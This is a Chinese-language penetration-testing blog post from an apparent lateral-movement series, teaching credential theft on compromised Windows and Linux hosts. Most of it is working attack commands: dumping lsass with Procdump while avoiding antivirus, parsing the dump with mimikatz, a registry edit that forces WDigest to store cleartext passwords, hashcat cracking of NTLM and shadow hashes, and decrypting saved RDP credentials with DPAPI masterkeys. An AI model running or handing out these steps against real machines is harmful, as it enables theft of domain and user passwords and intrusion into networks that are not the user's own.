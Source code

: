```yaml
---
title: day10-内网密码破解
date: 2024-03-21 22:44 +0800
categories: [内网,横向移动] 
tags: [横向移动,密码]
img_path: /img/penetration/
---
```

## 0x00 预备知识

该部分内容比较简单，最主要的是为了解决一些在横向移动过程中遇到的一些获取密钥的难题！！

1、首先，针对于Windows可能会出现以下几种情况：

- mimikatz被拦截：
- Windows版本过高

上述这两种情况都可能导致我们无法获取到对应的明文密钥甚至于无法读取。为了针对这两类情况，因此出现了以下几种解决办法：

1.  使用windows自带的读取软件Procdump；
2. 正面刚哈希值——Hsahcat
3. windows 强开（注册表）
4. 侧面找思路——例如RDP保存凭据

2、而对linux而言，就只有前一天讲的利用ssh票据或者正面刚！

## 0x01 windows下密码破解

#### 1、针对mimikatz

[Procdump](https://learn.microsoft.com/zh-cn/sysinternals/downloads/procdump)是微软官方的工具，可在命令行将lsass导出且杀软不会拦截：

```cmd
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

![截图](533e995c5038aa2d3dab4c8035f89c8f.png)

然后在本机使用mimikatz导入：

```shell
mimikatz.exe "sekurlsa::minidump lsass.DMP"
sekurlsa::logonPasswords full
```

![截图](aa257fbc1ae9e5e6ec478d29ebb57d27.png)

#### 2、针对高版本Windows

针对高版本的Windows这里可以有两个方法。

1） 同第一部分一样我们使用离线导出内存中存储的数据：

```powershell
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
# 在本机
mimikatz.exe "sekurlsa::minidump lsass.DMP"
sekurlsa::logonPasswords full
```

当然，此时如果在该主机上有对域进行通信的话我们也可以轻松的读取该密钥：

![截图](a7fbaed5a7508b76cc5f90a137088827.png)

![截图](86bc6013f5a57a638822bf97657dcf45.png)

2）第二个方法就是修改注册表：

修改注册表来让Wdigest Auth保存明文口令方式，并强制锁屏，然后让管理员重新开机即可：

```powershell
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\ /v UseLogonCredential /t REG_DWORD /d 1
```

#### 3、暴力破解hash

这里我们就是主要用到几个在线网站以及一款hashcat的工具

```sass
https://hashcat.net/
https://www.cmd5.com/
https://www.somd5.com/
518b98ad4178a53695dc997aa02d455c
```
{: file='密码破解网站'}
hashcat工具使用：

```sass
字典破解：
.\hashcat.exe -a 0 -m 1000 .\hash.txt .\pass.txt
暴力破解：
hashcat.exe -a 3 -m 1000 518b98ad4178a53695dc997aa02d455c ?l?l?l?l?l?s?s?s?d?d

-m 密文类型
-a 破解类型
?l 小写
?s 符号
?d 数字
```
{: file='hashcat'}
具体的教程可以参考： https://www.cnblogs.com/Junglezt/p/16044372.html

![截图](e96c1fa038ed86f78769082372051c1d.png)

建议有钱的直接cmd5 更快 更暴力

#### 4、RDP凭据抓取

这个使用的前提是，对方使用rdp进行了连接，且点击了保留凭据！！！

![截图](f6a25338b89fe17e71e52057faa66c47.png)

输入的是域控密码。

查看连接记录：（在连接的那个用户下）

```cmd
cmdkey /list
```

![截图](4d39eea699b9f518b3fd6e067a5069df.png)

查找本地的Credentials：

```cmd
dir /a %userprofile%\appdata\local\microsoft\credentials\*
```

![截图](941aeb6a1ede7898dc6486fbdf0d1fdf.png)

5FBB2585F99BA05366F08E52F1C1740B

从Credentials记录guidMasterKey值:

```shell
mimikatz dpapi::cred /in:C:\Users\webadmin\appdata\local\microsoft\credentials\5FBB2585F99BA05366F08E52F1C1740B
```

![截图](234af8bb3604327695acdcd1fc516b8d.png)

d5752851-2388-4829-a8c7-746ca9a3ec6a

找到guidMasterKey对应的MasterKey:（要在system权限下）

```shell
mimikatz sekurlsa::dpapi
```

![截图](906242d7a4f516896b778fce0a6cbfa8.png)

af49fe6d1d12e0667894de5294a56bc8b48691bb8d35327280294a9926dc26eacef1a74d3b8c387a5bc8bcfcbeeffb34ec2c9625f1a154df0f68c1e43398dcac

解密指定的MasterKey凭据：

```shell
mimikatz dpapi::cred /in:C:\Users\webadmin\appdata\local\microsoft\credentials\5FBB2585F99BA05366F08E52F1C1740B /masterkey:af49fe6d1d12e0667894de5294a56bc8b48691bb8d35327280294a9926dc26eacef1a74d3b8c387a5bc8bcfcbeeffb34ec2c9625f1a154df0f68c1e43398dcac
```

![截图](65db40db160916c533f7831eae584a3d.png)

## 0x02 linux下密码破解

linux一般都是通过查看密码文件然后直接破解！！

```bash
cat /etc/shadow
```

> 加密形式：
linux sha512crypt \$6\$, SHA512 (Unix)加密方式：
hashcat -m 1800 sha512linux.txt p.txt
> 
> linux sha256crypt $5\$, SHA256 (Unix)加密方式：
hashcat -m 7400 sha256linux.txt p.txt
> 
> linux下md5crypt, MD5 (Unix), Cisco-IOS $1\$ (MD5)加密方式：
hashcat -m 500 linuxmd5.txt p.txt
> 
> inux下bcrypt $2*\$, Blowfish加密方式：
hashcat -m 3200 linuxmd5.txt p.txt
{: .prompt-tip}

![截图](aa71027f3fb7c860e8aaa7deaef0f51d.png)